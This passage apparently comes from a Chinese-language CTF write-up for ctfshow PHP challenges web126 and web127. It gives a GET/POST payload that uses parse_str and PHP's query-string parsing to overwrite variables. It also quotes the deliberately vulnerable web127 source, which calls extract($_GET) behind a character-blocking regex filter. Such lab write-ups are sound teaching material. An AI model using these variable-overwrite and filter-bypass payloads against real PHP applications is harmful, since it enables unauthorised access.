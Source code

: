 同web125

payload:

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```



## web127

```php
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```



> $_SERVER["QUERY_STRING"]  获取查询 语句，获取的是GET传参?后面的值

http://localhost/aaa/index.php?p=222&q=333
结果：
$_SERVER['QUERY_STRING'] = "p=222&q=333";

在国家php解析特性：

![](https://raw.githubusercontent.com/npfs06/Images/main/img/20210223101059.png)
